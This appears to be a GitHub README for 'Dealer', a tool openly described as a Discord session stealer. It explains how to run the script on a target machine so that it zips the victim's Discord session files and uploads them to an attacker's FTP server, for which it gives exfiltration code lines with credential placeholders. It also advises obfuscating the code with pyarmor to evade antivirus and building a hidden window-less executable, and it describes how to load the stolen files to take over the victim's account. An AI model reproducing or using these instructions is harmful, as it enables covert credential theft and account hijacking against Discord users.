 # Dealer
Discord session stealer

Simple tool for stealing discord's session files, zipping them and sending archive via ftp

In order to use this tool you need either python3 installed on target machine or
you need to build standalone executables

Change this lines in 'dealer.py':
```
#ftp.connect(<SERVER>, <PORT>)
#ftp.login(<USER>, <PASSWORD>)
#ftp.cwd(<REMOTE FTP DIRECTORY>)
```
Insert FTP credentials - IP, port, username, password and remote directory to save zip archive to and remove # from beginnig of the lines

## Running on platform with python

1. Deploy dealer.py on target machine and run "python dealer.py"

## Building

1. Install requirements: 
   - pyarmor - obfuscate code to hide creds and reduce antivirus alarm possibility
   - pyinstaller - build standalone executables from python scripts
   ```
   pip install pyarmor pyinstaller
   ```
2. Build executable using provided build scripts (bat on Windows, sh on Linux)
   Scripts require arguments for pyinstaller. Common ones: 
   - "-F" - pack to single binary file
   - "-w" - window mode (basically make app invisible on windows)
   ```
   build.bat(.sh) -F -w
   ```
3. Deploy built executable from "dist" folder to target machine and run it

## Logging in target's session

1. Unpack received zip file from ftp-server to your discord directory with discord app closed
  - On Windows - go to %AppData%\discord
  - On Linux - ~/.config/discord
2. Run discord and you will get target's session
